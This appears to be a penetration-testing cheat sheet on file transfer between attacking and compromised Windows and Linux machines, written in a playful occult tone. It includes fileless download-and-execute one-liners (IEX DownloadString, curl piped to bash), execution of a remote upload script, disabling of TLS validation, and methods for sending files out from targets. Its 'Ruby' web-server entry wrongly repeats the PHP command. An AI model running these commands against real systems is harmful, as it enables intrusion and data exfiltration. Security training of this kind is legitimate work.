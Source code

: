 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('<FILE URL>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('<FILE URL>', 'C:\Users\Public\<FILE>')
```

**Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('<FILE URL>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

Default  
```powershell
Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>

**Prepare the server on Linux**

Create a temporary SMB Share and place your target file in it
```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Download files on Windows**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
```

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```

**Using credentials**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```
Mount the share
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```
Download the file
```cmd
copy n:\<FILE>
```
Umount the share
```cmd
net use n: /delete /y
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Option 2: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

1. Encode File Using PowerShell 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>FTP Uploads</h3></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUTFILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget <FILE URL>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> <FILE URL>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> <FILE URL>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- <FILE URL> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -O <FILE URL>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> <FILE URL>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -O <FILE URL>
```

**Fileless Download**  
```bash
# Executes it directly
curl <FILE URL> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Enabling the SSH Server**  
```bash
sudo systemctl enable ssh
```

**Starting the SSH Server**  
```bash
sudo systemctl start ssh
```

**Checking for SSH Listening Port**  
```bash
netstat -lnpt
```

**Downloading Files Using SCP**  
```bash
scp <USER>@<IP>:<FILE PATH> . 
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web Upload</h3></summary>

**Attacking machine: Start Web Server**  
```bash
sudo python3 -m pip install --user uploadserver
```

**Attacking machine: Create a Self-Signed Certificate**  
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Attacking machine: Prepare the files**  
```bash
mkdir https && cd https
mv ~/<FILE> .
```

> **_NOTE:_**  The webserver should not host the certificate. Create a new directory to host the file for the webserver.

**Attacking machine: Start Web Server**  
```bash
sudo python3 -m uploadserver --server-certificate ~/server.pem 443
```

**Targe machine: Download the file from the server**  
```bash
curl -k -O https://<IP>/upload/<FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>Basic SCP Upload</h4></summary>

**Upload to Remote Server**  
```bash
scp <LOCAL FILE> <USER>@<IP>:<REMOTE PATH>
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <LOCAL FILE> <USER>@<IP>:<REMOTE PATH>
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <LOCAL FILE> <USER>@<IP>:<REMOTE PATH>
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Using FTP Command**  
```bash
ftp <IP>
# Once connected:
put <LOCAL FILE>
```

**Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>
# Once connected:
put <LOCAL FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Target machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server
```

**Target machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer
```

**Target machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Target machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

**Attacking machine: Download the File from the Target Machine**  
```bash
wget <IP>:8000/<FILE>
```

</details>
</details>
</details>

---

